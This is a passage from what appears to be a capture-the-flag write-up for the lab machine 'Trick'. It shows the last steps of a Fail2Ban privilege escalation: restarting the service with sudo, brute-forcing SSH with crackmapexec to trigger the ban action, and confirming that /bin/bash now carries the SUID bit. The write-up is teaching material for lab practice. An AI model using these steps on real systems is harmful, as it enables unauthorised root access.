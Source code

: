 # Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
`
```
Restarting the service with sudo, so the new config gets loaded :

```
michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

The last thing left todo is triggering the action by bruteforcing ssh.

Trigger the ```actionban``` by bruteforcing SSH:
```
┌──(kali㉿kali)-[~]
└─$ crackmapexec ssh trick.htb -u /usr/share/wordlists/rockyou.txt -p gimmeroot  
```

Check if SUID is set on ```/bin/bash```:

```
michael@trick:/etc/fail2ban$ ls -la /bin/bash
-rwsrwxr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

|  rootflag |
|---|
|  REDACTED |